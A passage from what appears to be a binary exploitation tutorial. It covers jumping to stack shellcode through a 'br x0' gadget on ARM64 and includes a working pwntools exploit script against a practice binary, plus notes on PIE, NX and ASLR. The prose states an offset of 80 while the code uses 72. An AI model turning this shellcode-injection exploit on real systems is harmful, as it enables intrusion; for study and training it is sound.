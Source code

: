 We will use that gadget to jump to it because the binary is compile **WITHOUT PIE.** Using a pattern it's possible to see that the **offset of the buffer overflow is 80**, so the exploit would be:

```python
from pwn import *

p = process('./ret2x0')
elf = context.binary = ELF('./ret2x0')

stack_offset = 72
shellcode = asm(shellcraft.sh())
br_x0 = p64(0x4006a0) # Addr of: br x0;
payload = shellcode + b"A" * (stack_offset - len(shellcode)) + br_x0

p.sendline(payload)
p.interactive()
```

{% hint style="warning" %}
If instead of `fgets` it was used something like **`read`**, it would have been possible to bypass PIE also by **only overwriting the last 2 bytes of the return address** to return to the `br x0;` instruction without needing to know the complete address.\
With `fgets` it doesn't work because it **adds a null (0x00) byte at the end**.
{% endhint %}

## Protections

* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md): If the stack isn't executable this won't help as we need to place the shellcode in the stack and jump to execute it.
* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) & [**PIE**](../common-binary-protections-and-bypasses/pie/): Those can make harder to find a instruction to jump to esp or any other register.

## References

* [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode)
* [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp)

